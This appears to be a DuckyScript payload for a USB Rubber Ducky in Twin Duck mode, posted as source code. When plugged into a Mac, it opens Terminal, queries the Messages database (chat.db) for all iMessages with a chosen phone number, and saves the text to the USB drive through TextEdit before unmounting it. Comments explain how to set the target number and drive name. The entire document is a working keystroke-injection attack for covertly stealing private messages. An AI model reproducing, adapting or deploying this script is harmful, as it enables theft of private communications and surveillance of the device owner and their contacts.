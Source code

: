 `REM OSX IMESSAGE GRABBER FOR TWIN DUCK 
REM this will query the chat.db based on a number give to it in the query
REM Raymon Hardy
REM You should replace MICRO in /Volumes/MICRO with your ducky name
REM You should replace number in the WHERE clause of the query with something like "+190874....."
DELAY 500
GUI SPACE
DELAY 150
STRING Terminal
DELAY 500
ENTER
DELAY 300
STRING sqlite3 ~/Library/Messages/chat.db
DELAY 300
ENTER
DELAY 300
STRING SELECT text FROM `message` WHERE handle_id=(SELECT ROWID FROM `handle` WHERE id="+number" AND service="iMessage");
DELAY 500
ENTER
DELAY 500
COMMAND A
DELAY 150
COMMAND C
STRING .quit
DELAY 150
ENTER
COMMAND Q
DELAY 300
GUI SPACE
DELAY 150
STRING textEdit
DELAY 500
ENTER
DELAY 500
COMMAND N
DELAY 500
COMMAND V
DELAY 500
COMMAND S
DELAY 500
DELETE
DELAY 500
STRING /
DELAY 300
STRING Volumes/MICRO
DELAY 500
ENTER
DELAY 500
STRING query
DELAY 500
ENTER
DELAY 300
COMMAND Q
DELAY 500
STRING diskutil umount /Volumes/MICRO`
